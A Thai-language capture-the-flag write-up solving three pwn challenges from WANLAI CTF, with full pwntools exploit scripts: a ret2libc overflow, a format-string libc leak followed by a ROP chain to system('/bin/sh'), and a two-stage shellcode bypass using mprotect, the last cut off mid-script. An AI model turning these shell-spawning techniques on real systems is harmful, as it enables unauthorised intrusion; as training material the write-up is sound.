WANLAI CTF จัดโดย DropCTF ในช่วงวันไหลเทศกาลสงกรานต์ 17-19 เมษายนที่ผ่านมา

- [@noonomyen](https://github.com/noonomyen)
- [@c0ffeeOverdose](https://github.com/c0ffeeOverdose)
- [@boom51zx](https://github.com/boom51zx)

- Som Tam debug mode
- TukTuk GPS
- Demonbyte
<!-- - Easy or Hard -->

# Challenges

## Som Tam debug mode

*ลุงสมชายเปิดร้านส้มตำและเผลอทิ้งคอนโซลหลังร้านที่ยังมีโหมดดีบักเก่าอยู่ ผู้เล่นต้องใช้ช่องโหว่ในเมนูต้อนรับเพื่อยึด shell และหยิบ Flag ออกมา* \
*สามารถเชื่อมได้ผ่าน nc ip 1337* \
*Flag Format: WANLAI{MD5}*





checksec



ใน `main` เราจะพบว่ามีการ call ไปที่ `set_welcome_message` เมื่อเลือก 2



ช่องโหว่คือ buffer overflow ใน function `set_welcome_message` มีการใช้ `gets`



และมี string `/bin/sh` มี symbol อยู่ชื่อ `shell_path` อยู่ใน rodata

เนื่องจากมี NX และ Partial RELRO เปิดอยู่ ท่าที่เหมาะๆจึงจะเป็น ret2libc



โดย padding ทับ buffer ดังกล่าว 40 bytes \
ต่อมาจะให้เขียนชี้ local pointer ไปที่ `shell_path` (เพื่อไม่ให้ program crash ใน `write_audit_line` ก่อนถึงคำสั่ง `ret`) \
แล้วเรา padding 12 bytes ไปจนถึง saved RET \
เขียน saved return address เป็น `system@plt` \
ต่อด้วย fake return address สำหรับ `system` \
ปิดท้ายด้วย `shell_path` (1st argument)

```py
from pwn import *

exe = context.binary = ELF("vuln")
context.arch = "i386"
context.os = "linux"

p = process(exe.path)

shell = exe.symbols["shell_path"]
system = exe.plt["system"]

payload = flat(
    b"A" * 40,
    p32(shell),
    b"B" * 12,
    p32(system),
    b"C" * 4,
    p32(shell)
)

p.sendlineafter(b"> ", b"2")
p.sendlineafter(b"customers:\n", payload)
p.interactive()
```



## TukTuk GPS

*ระบบนำทาง GPS ของแฟรนไชส์รถตุ๊กตุ๊กเมืองกรุงมีฟีเจอร์ใหม่ที่เปิดให้ผู้โดยสารเขียนรีวิวการเดินทางได้ แต่ดูเหมือนโปรแกรมเมอร์จะเผลอปล่อยช่องโหว่เอาไว้ จงขโมยข้อมูลลับที่ซ่อนในระบบนี้ให้ได้* \
*สามารถเชื่อมได้ผ่าน nc ip 1337* \
*Flag Format: WANLAI{MD5}*





เป็น glibc 2.35 ซึ่ง... ok ผมมี linker อยู่



เข้า function `leave_review`



ใน function นี้มีการใช้ `gets` และ `printf` ซึ่ง line 21,25

- `printf(name_buf)` - format string
- `gets(review_buf)` - stack buffer overflow

จากเคสนี้ก็วนมา ret2libc เช่นเคย

โดยเราจะใช้ `printf` ในการ leak libc base address โดยการ input ผ่าน `read(0,local_38,0x1f)` มันจะถูกเขียนลง `local_38[31]` ซึ่งจะถูก output อีกทีที่ `printf(local_38)` ทำให้เราสามารถกำหนด format string ได้

แล้ว leak มาจากไหนล่ะ?



เราก็ทำการ break ไปยัง address ดังกล่าวเพื่อสำรวจว่าชี้ไปที่ไหนดี



เมื่อเราทำการ break ก่อน call `printf` เราพบว่ามี register `RCX` (3rd argument) ที่ดูเหมือนจะอยู่ใน space ของ libc โดยเมื่อเราทำการหาค่า offset ของมันเราจะได้ `0x7fac5bf14907` - `0x7fac5be00000` = `0x114907` เอาละ เรารู้แล้วว่า มี leak libc address นี้อยู่ที่ reg `RCX` ซึ่งคือ argument ตัวที่ 3 ตาม calling convention (System V AMD64 ABI) ซึ่งเราสามารถแสดงมันบน `printf` ได้โดยใช้ string format `%3$p`



เอาละเราได้ libc base แล้ว ต่อไปเราจะใช้ ret2libc กัน โดยจะใช้ `gets` ในการ buffer overflow แต่รอบนี้จะต่างจากข้อก่อนคือ รอบนี้เป็น ROP เพราะเราต้อง leak address ก่อน ซึ่งเราก็ต้องมาหา offset ไปที่ return address เพื่อความง่าย เราจะใช้ cyclic pattern ในการหา

```py
p.sendline(cyclic(200))
p.wait()
core = p.corefile
crash_value = core.read(core.rsp, 8)
offset = cyclic_find(crash_value[:4])

log.info(f"RSP points to: {crash_value}")
log.info(f"Offset: {offset}")
```



offset 120

ต่อมาเราก็จะหา gadget กัน ซึ่งจะใช้ `ret` และ `pop rdi ; ret` และ string `/bin/sh` และ function `system`



ซึ่งที่่กล่าวมามีใน libc และเราก็รู้ libc base แล้วด้วย ดังนั้นถึงเวลาประกอบ exploit script

```py
from pwn import *

context.binary = elf = ELF("./chall")

p = process(["/opt/glibc-2.35/lib/ld-linux-x86-64.so.2", "--library-path", ".", "./chall"])

p.sendlineafter(b"tuktuk> ", b"3")
p.sendlineafter(b"Rider name: ", b"%3$p")
data = p.recvuntil(b"Review: ")

leak = int(data.split(b"Sawadee krub, ")[1].split(b"!")[0], 16)
libc = ELF("libc.so.6")
libc.address = leak - 0x114907
rop = ROP(libc)

OFFSET = 120
RET = rop.find_gadget(["ret"])[0]
POP_RDI_RET = rop.find_gadget(["pop rdi", "ret"])[0]
SHELL = next(libc.search(b"/bin/sh\x00"))
SYSTEM = libc.sym["system"]

log.info(f"leak: {hex(leak)}")
log.info(f"libc base: {hex(libc.address)}")
log.info(f"offset: {hex(OFFSET)}")
log.info(f"gadget [ret]: {hex(RET)}")
log.info(f"gadget [pop rdi ; ret]: {hex(POP_RDI_RET)}")
log.info(f"shell: {hex(SHELL)}")
log.info(f"system: {hex(SYSTEM)}")

p.sendline(flat(
    b"A" * OFFSET,
    RET,
    POP_RDI_RET,
    SHELL,
    SYSTEM
))
p.interactive()
```



## Demonbyte

*สัตว์ประหลาดตัวนี้กิน byte บางตัวไปหมด... แต่มันยังปล่อยให้เธอเขียน shellcode ได้อยู่นะ จงหา Flag ให้เจอ* \
*สามารถเชื่อมได้ผ่าน nc ip 8888* \
*Flag Format: WANLAI{MD5}*





เจอ `main` function แล้วเครียดเลย เอาละมันจะยาวหน่อยแต่จะประมาณนี้

- ปิด buffer
- ก็ตั้ง `alarm` 30 วิ
- จอง `mmap` ขนาด `0x1000` 4096 bytes พร้อม protection `PROT_READ`|`PROT_WRITE` และ flags `MAP_PRIVATE`|`MAP_ANONYMOUS`
- set NOP ไปที่ addr ที่จองมา ถ้ามองสั้นๆก็จะแบบ memset(addr, 0x90, 0x1000)
- เตรียม stub (รันช่วงท้ายๆของ code)

```py
from pwn import *
context.arch = 'amd64'
context.os = 'linux'
code = p64(0x8948ff31c031050f) + p64(0x050f00000200bae6) + p16(0xe4ff)
print(enhex(code))
print(disasm(code))
```

```text
   0:   0f 05            syscall
   2:   31 c0            xor    eax, eax    <-   RAX = 0 (read)
   4:   31 ff            xor    edi, edi    <- 1 RDI = STDIN (fd)
   6:   48 89 e6         mov    rsi, rsp    <- 2 RSI = RSP (buffer)
   9:   ba 00 02 00 00   mov    edx, 0x200  <- 3 RDX = 512 (size)
   e:   0f 05            syscall
  10:   ff e4            jmp    rsp
```

เรียก syscall หนึ่งครั้งก่อน ค่าจาก `launch()` แล้วทำการ `read(STDIN, RSP, 512)` ไปไว้บน stack แล้ว jmp RSP กระโดดไปรัน shellcode บน stack

- รับ input `0x80` 128 bytes
- ตรวจ bad bytes `0x0f` `0xcd` (`0f 05` = syscall, `cd 80` = int 0x80) กันไม่ใช้ยิง system call
- copy input ไปไว้ใน mmap 32 รอบ รอบละ 4 bytes = 128 bytes
- เปลี่ยน permission ของ mmap ที่ขอมาเป็น `PROT_READ`|`PROT_EXEC`
- `launch` reset register แล้วรัน



ปกติแหละ... แต่ๆ มี `mov rax rdi` อยู่ มันคืออะไร? ก็คือ เอา argument ตัวแรก (args ของ `launch` คือ addr ของ mmap ที่จองมา) ไปเก็บไว้ใน rax ยังไงละ และไม่ได้ถูก reset ด้วยเพราะถูกใช้ในการ jump

เอาละเรามาสรุปสถานการณ์กัน ตัว program นี้จะให้เราใส่ input เป็น shellcode ที่ถูก assemble มาแล้ว โดยจะแบ่งออกเป็น 2 stage หรือครั้งแรก เราจะใส่อะไรลงไปรันก็ได้ยกเว้น byte `0x0f` `0xcd` เพราะเป็นส่วนประกอบสำหรับเรียกใช้ system call แต่ถ้าเราสังเกตดีๆ เราจะพบว่า หลังจากที่ shellcode ของเราใน stage 1 รันเสร็จแล้วมันจะไหล `NOP` ไปหา stub ที่ถูกเตรียมโดย program ไว้ในตอนต้น โดย code ส่วนนั้นจะทำการ call `syscall` โดยไม่กำหนดอะไรเลยก่อน เสร็จแล้วเรียกใช้ `syscall` สำหรับอ่าน STDIN ขนาด 512 bytes ลง stack แล้ว jump รันครั้งที่สอง (stage 2) เข้า stack

แต่เดี๋ยวก่อน binary ตัวนี้ NX enabled นะ

นั้นจึงเป็น guide ให้เราได้ทันทีว่า stage 1 เราต้องทำอะไร ถ้าไม่ใช่การปิด NX ผ่าน memory protection (allow execution)

แล้วเราจะปิดยังไง?

ผ่าน system call `0xA` `mprotect` โดยมี args เป็น `start` `len` `prot` ซึ่งเราจะใช้ prot เป็น `PROT_READ`|`PROT_WRITE`|`PROT_EXEC` ไปที่ stack ของเราที่จะใช้ใน stage 2 shellcode ของเราจึงจะออกมาประมาณนี้

```asm
mov  rdi, rsp    # เก็บ RSP ไว้ RDI (stack pointer)
shr  rdi, 0xc    # shift RDI -> 12
shl  rdi, 0xc    # shift RDI <- 12 สิ่งที่ได้คือ page-aligned ซึ่ง set เป็น 0 args (start)
mov  rsi, 0x1000 # set 1 args เป็น 0x1000 (size)
mov  rdx, 0x7    # set 2 args เป็น 0x7 (prot)
mov  rax, 0xa    # set syscall เป็น mprotect (0xA)
```

แล้วเราก็ใช้ pwntool เติม NOP ให้พอดี 0x80 bytes อีกที

ต่อมาเราก็จะ craft shell สำหรับ stage 2 กัน เนื่องจากไม่มีข้อจำกัดอะไรยุ่งยากแล้วใน stage 2 เราเลยสามารถใช้ shellcraft ได้เลย

```py
from pwn import *

context.arch = "amd64"
context.os = "linux"

p = process("./pwn")

sc1 = asm("""
    mov  rdi, rsp
    shr  rdi, 0xc
